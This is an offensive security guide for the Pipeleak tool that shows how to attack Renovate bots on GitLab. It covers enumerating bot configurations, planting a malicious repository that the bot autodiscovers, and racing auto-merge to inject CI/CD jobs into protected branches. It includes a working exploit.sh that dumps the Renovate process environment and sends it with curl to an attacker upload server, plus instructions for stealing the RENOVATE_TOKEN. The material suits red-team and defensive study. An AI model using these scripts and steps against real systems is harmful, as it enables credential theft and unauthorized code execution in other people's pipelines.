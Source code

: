 


# Attacking Renovate Bots: A Practical Guide

This guide explains how to use Pipeleak to discover and exploit common misconfigurations in Renovate bot setups. For more background and technical details, see the full [blog post](https://blog.compass-security.com/2025/05/renovate-keeping-your-updates-secure/).

There are two key points to understand:

1. **Code Execution by Renovated Repositories**
> Every project renovated by the same bot must be considered equally trusted and exposed to the same attack level. If one project is compromised, all others processed by that bot can be affected. Code execution by the renovated repository in the bot context is assumed in Renovate's threat model.

2. **GitLab Invite Auto-Acceptance**
> GitLab project invites are auto-accepted. You can invite any bot directly to your repository. If it is then renovated by the invited bot, you can compromise the bot user.


## 1. Enumerate Renovate Bot Usage

Use the `enum` command to scan your GitLab instance for Renovate bot jobs and configuration files. This is useful for:

- Identify Renovate configurations
- Finding projects with vulnerable Renovate bot configurations
- Collecting config files for further analysis

For example, we enumerated Renovate configs found on GitLab.com. One project was found that enables Renovate's autodiscovery of projects and does **not** set any autodiscovery filters.

```bash
pipeleak gl renovate enum -g https://gitlab.com -t glpat-[redacted] --dump
2025-09-30T07:11:06Z INF Fetching projects
2025-09-30T07:11:12Z WRN Identified Renovate (bot) configuration autodiscoveryFilterType= autodiscoveryFilterValue= hasAutodiscovery=true hasAutodiscoveryFilters=false hasConfigFile=true pipelines=enabled selfHostedConfigFile=true url=https://gitlab.com/test-group/renovate-bot
2025-09-30T07:11:16Z INF Fetched all projects
2025-09-30T07:11:16Z INF Done, Bye Bye 🏳️‍🌈🔥
```


This makes the bot susceptible to autodiscovery exploits, since it will renovate any repository it can access.

Even when autodiscovery filters are enabled, weak or poorly written filter regexes can still allow attackers to bypass them and exploit the bot.

---

## 2. Exploit Autodiscovery with a Malicious Project

The Renovate bot from the example above is configured to autodiscover new projects and does not apply any, or only weak, bypassable filters. You can create a repository with a malicious script that gets executed by the bot.

The following command creates a repository that includes an exploit script called `exploit.sh`. Whenever a Renovate bot picks up this repo, the script will be executed.
```bash
pipeleak gl renovate autodiscovery -g https://gitlab.com -t glpat-[redacted] 
2025-09-30T07:19:33Z INF Created project name=devfe-pipeleak-renovate-autodiscovery-poc url=https://gitlab.com/myuser/devfe-pipeleak-renovate-autodiscovery-poc
2025-09-30T07:19:35Z INF Created file file=renovate.json
2025-09-30T07:19:35Z INF Created file file=package.json
2025-09-30T07:19:36Z INF Created file file=package-lock.json
2025-09-30T07:19:37Z INF Created file file=exploit.sh
2025-09-30T07:19:37Z INF No username provided, you must invite the victim Renovate Bot user manually to the created project
2025-09-30T07:19:37Z INF Make sure to update the exploit.sh script with the actual exploit code
2025-09-30T07:19:37Z INF Then wait until the created project is renovated by the invited by the Renovate Bot user
```

First, set up the `exploit.sh` script according to your needs. The goal is to read the Renovate process environment variables and exfiltrate them to your attacker server.

```bash
#!/bin/bash
UPLOAD_URL="https://[attacker-ip]:8080/upload"

if [ -z "$UPLOAD_URL" ]; then
    echo "Upload URL is empty"
    exit 1
fi

# 1. Get renovate PID
RPID=$(ps -eo pid,cmd | grep -i 'renovate' | awk '{print $1}' | head -n 1)
echo "[+] Renovate PID: $RPID"

# 2. Upload /proc/<PID>/environ to GoShs server
ENV_FILE="renovate_environ_${RPID}.txt"
if [ -r "/proc/$RPID/environ" ]; then
    tr '\0' '\n' < /proc/$RPID/environ > "$ENV_FILE"
    echo "[+] Uploading $ENV_FILE to GoShs server..."
    curl -k -sSf -X POST -F "files=@$ENV_FILE" "$UPLOAD_URL"
else
    echo "[-] Cannot read /proc/$RPID/environ"
fi
```

On your attacker server, start a [GoShs](https://github.com/patrickhener/goshs) server to accept the environment files from the Renovate process.
```bash
./goshs --ssl --self-signed --upload-only -no-clipboard --no-delete --port 8000
INFO   [2025-09-30 09:31:29] You are running the newest version (v1.1.1) of goshs
```


Next, identify the bot user and invite it to your repository. By looking at the Renovate bot configuration, you can identify the renovated repos and check the username of the bot user in the merge requests created by that bot.

Such a merge request can look like this. Below the title, you see the bot's username `renovate_runner`.

![Renovate MR](./renovate_mr.png)

Invite that user to your repository with `developer` access. Now, wait until the bot is triggered next. After it has run, you can find the environment file on your GoShs server.

In that file, extract all sensitive environment variables and use them for lateral movement. Most interesting is probably the `RENOVATE_TOKEN`, as it might contain a GitLab PAT. You can then enumerate the access of that PAT using Pipeleak's features.

> After receiving a merge request from the Renovate bot, you must fully delete both the branch and the merge request. This ensures the bot will recreate them, allowing your script to run again. Otherwise, the script will not be executed a second time. Ensure to revert the commits as well if they were merged.


## 3. Privilege Escalation via Renovate Bot Branches

In this scenario, assume you already have access to a repository, but only with developer permissions. You want to gain access to the CI/CD variables configured for deployments. However, you cannot directly access these, as they are only provided to pipeline runs on protected branches like the main branch.

Fortunately, the project is using Renovate and the bot is configured to auto-merge after tests pass in the merge request created by the bot. Thus, the bot has maintainer access to the repository.

Your goal is to abuse the Renovate bot's access level to merge a malicious `gitlab-ci.yml` file into the main branch, effectively bypassing a review by other project maintainers. On the main branch, you can then steal the exposed environment variables used for deployments.

Using Pipeleak, you can monitor your repository for new Renovate branches. When a new one is detected, Pipeleak tries to add a new job into the `gitlab-ci.yml`. As this needs to exploit a race condition (adding new changes to the Renovate branch before the bot activates auto-merge), this might take a few attempts.

```bash
pipeleak gl renovate privesc -g https://gitlab.com -t glpat-[redacted] --repoName company1/a-software-project --renovateBranchesRegex 'renovate/.*' -v
2025-09-30T07:56:57Z DBG Verbose log output enabled
2025-09-30T07:56:57Z INF Ensure the Renovate bot does have a greater access level than you, otherwise this will not work, and is able to auto merge into the protected main branch
2025-09-30T07:56:58Z DBG Testing push access level for default branch branch=main requiredAccessLevel=40 userAccessLevel=30
2025-09-30T07:56:58Z DBG Testing merge access level for default branch branch=main requiredAccessLevel=40 userAccessLevel=30
2025-09-30T07:56:58Z INF Default branch is protected and you do not have direct access, proceeding with exploit branch=main currentAccessLevel=30
2025-09-30T07:56:58Z INF Monitoring for new Renovate Bot branches to exploit
2025-09-30T07:56:58Z DBG Checking for new branches created by Renovate Bot
2025-09-30T07:56:58Z DBG Storing original branches for comparison
2025-09-30T07:56:58Z DBG Checking for new branches created by Renovate Bot
2025-09-30T07:57:30Z DBG Checking for new branches created by Renovate Bot
2025-09-30T07:57:30Z INF Checking if new branch matches Renovate Bot regex branch=renovate/update-lib1
2025-09-30T07:57:30Z INF Identified Renovate Bot branch, starting exploit process branch=renovate/update-lib1
2025-09-30T07:57:30Z INF Fetching .gitlab-ci.yml file from Renovate branch branch=renovate/update-lib1
2025-09-30T07:57:30Z INF Modifying .gitlab-ci.yml file in Renovate branch branch=renovate/update-lib1
2025-09-30T07:57:31Z INF Updated remote .gitlab-ci.yml file in Renovate branch branch=renovate/update-lib1 fileinfo={"branch":"renovate/update-lib1","file_path":".gitlab-ci.yml"}
2025-09-30T07:57:31Z INF CI/CD configuration updated, check yourself if we won the race! branch=renovate/update-lib1
2025-09-30T07:57:31Z INF If Renovate automatically merges the branch, you have successfully exploited the privilege escalation vulnerability and injected a job into the CI/CD pipeline that runs on the default branch
```

Manually check if the merge request has been set to auto-merge, and see if your changes land in the main branch. If they do, you have successfully injected a CI/CD job into the protected branch. From there, leak all the credentials and continue your attack path.
